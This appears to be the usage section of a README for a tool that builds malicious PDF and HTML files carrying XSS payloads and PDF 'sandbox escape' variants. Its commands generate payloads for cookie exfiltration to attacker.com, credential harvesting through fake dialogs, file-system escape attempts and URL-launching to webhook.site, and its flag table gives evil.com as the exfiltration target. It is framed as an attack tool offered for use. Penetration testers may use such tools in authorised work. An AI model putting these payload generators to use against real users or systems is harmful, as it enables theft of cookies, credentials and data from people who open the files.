 ```bash
# Navigate to the PDF directory
cd PDF

# Show help and available options
python3 script.py --help

# List all available XSS payload types
python3 script.py --list-types

# Generate basic PDF files (backward compatibility)
python3 script.py -o pdf

# Generate specific XSS payload type
python3 script.py -t alert

# Generate all XSS payload types
python3 script.py -t all

# Generate HTML XSS test file
python3 script.py -o html
```

### Advanced PDF Sandbox Escape Usage

```bash
# Navigate to PDF directory first
cd PDF

# PDF data exfiltration via form submission escape
python3 script.py -t cookie -u http://attacker.com/collect

# PDF action-based sandbox escape
python3 script.py -t action -u http://collaborator.burpsuite.com

# PDF dialog manipulation for credential harvesting
python3 script.py -t dialog -u http://logger.example.com

# PDF file system escape attempts
python3 script.py -t file

# Generate all PDF sandbox escape types
python3 script.py -t all -u http://collaborator.burpsuite.com

# PDF network escape via URL launching
python3 script.py -t network -u https://webhook.site/unique-id
```

## 🏁 Command Line Flags

| Flag | Long Form | Description | Example |
|------|-----------|-------------|---------|
| `-h` | `--help` | Show help message | `python3 script.py --help` |
| `-u` | `--url` | Target URL for data exfiltration | `-u http://evil.com/collect` |
| `-o` | `--output` | Output format (pdf/html) | `-o pdf` |
| `-s` | `--script` | Custom JavaScript payload | `-s "app.alert('test')"` |
| `-t` | `--type` | XSS payload type or 'all' | `-t cookie` |
| | `--list-types` | List available payload types | `--list-types` |
